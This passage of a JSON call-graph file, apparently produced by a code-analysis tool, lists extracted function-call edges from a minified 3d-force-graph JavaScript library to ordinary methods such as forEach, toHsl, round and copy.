"push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "range"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "range"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "domain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "desaturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBrightness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isDark"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hsv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hsva"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHex8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toPercentageRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHex8String"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHex8String"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHslString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHsvString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ratiodef"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLuminance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLuminance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "readability"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "readability"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isReadable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mostReadable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "construct"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unknown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMorphTargets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", 